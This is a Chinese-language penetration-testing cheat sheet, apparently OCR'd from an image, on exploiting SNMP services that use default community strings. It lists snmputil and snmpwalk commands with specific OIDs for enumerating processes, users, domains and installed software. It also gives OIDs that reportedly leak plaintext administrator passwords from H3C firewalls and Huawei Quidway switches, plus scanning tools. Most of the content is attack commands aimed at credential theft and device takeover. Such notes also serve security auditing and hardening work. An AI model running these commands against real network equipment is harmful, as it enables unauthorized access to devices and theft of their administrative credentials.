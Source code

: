 snmp服务器的默认密码为public，漏洞发现与扫描：

- x-scan扫描 + GFI LANGard利用

- 使用Snmp Digger进行漏洞利用

- snmputil.exe

snmputil.exe get|getnext|walk agent community oid[oid……]

当前进程列表 snmputil.exe walk ip public
.1.3.6.1.2.1.25.4.2.1.2

系统用户列表 snmputil.exe walk ip public
.1.3.6.1.4.1.77.1.2.25.1.1

列 出 域 名 snmputil.exe walk ip public
.1.3.6.1.4.1.77.1.4.1.0

列出安装软件 snmputil.exe walk ip public
.1.3.6.1.2.1.25.6.3.1.2

列出系统信息 snmputil.exe walk ip public .1.3.6.1.2.1.1

- IP Network
Browser（snmp浏览工具）

12.3 snmp获取管理员密码 
---------------------------------------

snmp默认开放端口: 161

- H3C防火墙：通过SNMP只读权限的团体字符串便可以读到管理密码，从而控制设备。（WooYun-2013-21877(http://www.wooyun.org/bugs/wooyun-2013-021877)）

扫描工具：
solarwinds中的snmpsweep


升级版：solarwinds工具包中的 ip browser

- 华为quidway三层交换

利用这个OID读出的密码为明文（WooYun-2013-21964(http://www.wooyun.org/bugs/wooyun-2013-021964)）

root@bt:\~\# snmpwalk -c private -v 1 x.x.x.x
1.3.6.1.4.1.2011.5.2.1.10.1


对于存在该漏洞的设备，目前已知可以获取帐号的oid有一下三个（walk）:

1.3.6.1.4.1.2011.5.2.1.10.1

1.3.6.1.4.1.2011.10.2.12.1.1.1

1.3.6.1.4.1.25506.2.12.1.1.1


12.4 实战演练 
-----------------------------

`snmpwalk -v 2c -c public xx.xx.xx.xx`
